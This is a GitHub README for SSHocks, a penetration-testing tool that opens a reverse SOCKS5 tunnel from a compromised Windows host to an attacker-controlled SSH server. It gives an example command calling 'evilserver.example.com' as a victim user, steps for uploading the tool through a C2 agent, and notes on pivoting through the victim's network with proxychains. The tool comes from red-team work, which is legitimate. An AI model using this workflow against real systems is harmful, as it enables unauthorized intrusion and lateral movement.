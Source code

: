 <h1>SSHocks v. 1.0</h1>
                                       
SSHocks was born out of a penetration testing need. On a Red Team engagement, we need to get a Socks5 proxy up and fast. We originally had one working through an SSH tunnel using OpenSSH installed on a Windows 10 target. However, partway through our engagement, the client placed protections that stopped ssh.exe from functioning. I got to work and cobbled together this simple SSH client with full Socks5 support. I wanted it to be a single executable file so it was easy to upload. This project can be published via *dotnet* as a single file.

-Example: *dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true*

The latest release is confirmed to work on Windows 10 hosts. It has not yet been tested on other versions of Windows. (I just built it! Give me time man!) If you've tried it on something other than Windows 10, please let me know!

**USAGE:** SSHocks.exe [SSH server] [SSH Port] [username] [path to private key] [remote socks port]

(Ex. SSHocks.exe evilserver.example.com 2222 victimUser C:\Path\to\keyfile\id_ed25519 1080)

**NOTES:**

1. You will need to create the user account on your SSH server. Then, generate an ed25519 keypair on your SSH server for your victim's user account. **DO NOT SET A PASSWORD ON THE KEY.** SSHocks DOES NOT support RSA keys, only ed25519.

2. Upload the key and SSHocks.exe to the victim host using your C2 agent or whatever other means you might have for uploading sketchy stuff. **(At this time, SSHocks cannot be assembly loaded. I'm working on fixing that. Any assistance is appreciated!)**

3. Execute using your prefered binary execution method.

4. By default, the program will open port 1080 on the victim host as the receiving port for all Socks5 traffic. This can be changed in source as needed.
   
5. Once the client is connected to your attack SSH server and you've verified the proxy port is listening, you can use any proxy aware program or tool to attack the victim's network. Use Proxychains with non-proxy aware tools. Just make sure your proxychains.conf file is properly configured for the correct port and is using socks5.

6. **SHUT DOWN** Since the point was to use this via a C2 impant which is likely to not provide an interactive shell, I baked in a way to gracefully shut the proxy and tunnel down using a remote proxy command. Simply use proxychains or some other means to send:
  
   *curl xxx.xxx*
   
The proxy will receive the connection request and interpret it as a command to shutdown, and will disconnect gracefully.

<h2>To Do:</h2>
- Modify source to be able to be loaded using Assembly Reflection
